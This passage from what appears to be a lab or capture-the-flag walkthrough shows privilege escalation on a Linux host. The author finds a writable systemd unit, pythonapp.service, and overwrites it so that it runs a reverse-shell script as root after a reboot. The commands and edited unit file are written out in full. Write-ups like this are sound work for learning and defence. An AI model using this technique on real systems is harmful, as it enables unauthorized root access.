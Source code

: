 This indicates that we can reboot and shutdown the computer.

### Incorrect File Permissions

Let's check the contents of **pythonapp.service**.

```
[cmeeks@hetemit ~]$ cat /etc/systemd/system/pythonapp.service
cat /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

Perfect. We can modify this file to escalate to root. We'll modify this file to run a reverse shell, then restart the system. Once the system restarts, our shell should run as a system service. Let's modify **pythonapp.service**.

```
[cmeeks@hetemit ~]$ cat <<'EOT'> /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/reverse.sh
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
EOT
```

Specifically, we modified the `ExecStart` and `User` lines, and removed the `WorkingDirectory=` line.
